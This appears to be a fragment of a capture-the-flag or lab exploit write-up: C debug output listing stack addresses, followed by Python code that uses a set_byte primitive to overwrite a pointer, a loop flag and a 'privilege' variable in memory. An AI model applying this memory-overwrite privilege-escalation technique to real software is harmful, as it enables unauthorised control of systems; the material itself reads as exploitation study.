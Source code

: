 

```
printf("%x\n",&d);			2000767c
printf("%x\n",d);			0
printf("%x\n",&p);			20007680
printf("%x\n",p);			0

printf("%x\n",buff2);		20007684
printf("p %x\n",&priv);		20007678

printf("%d\n",len);			511
printf("%x\n",&len);		20007674
printf("%x\n",buff);		20007670
```



			
			import struct
			a = struct.pack('<i', -12)[::-1]
			
			for i in range(len(a)):
				set_byte(p, 644+i, a[i])
				
			# loop
			set_byte(p, 879, 1)

			# buff random byte
			set_byte(p, 719, 1)

			# addr for p
			a = b'\x74\x76\x00\x20'[::-1]
			for i in range(len(a)):
				set_byte(p, 719-1-i, a[i])

			# d
			for i in range(4):
				set_byte(p, 719-5-i, 0)

			# privilege
			for i in range(4):
				set_byte(p, 719-9-i, 1)
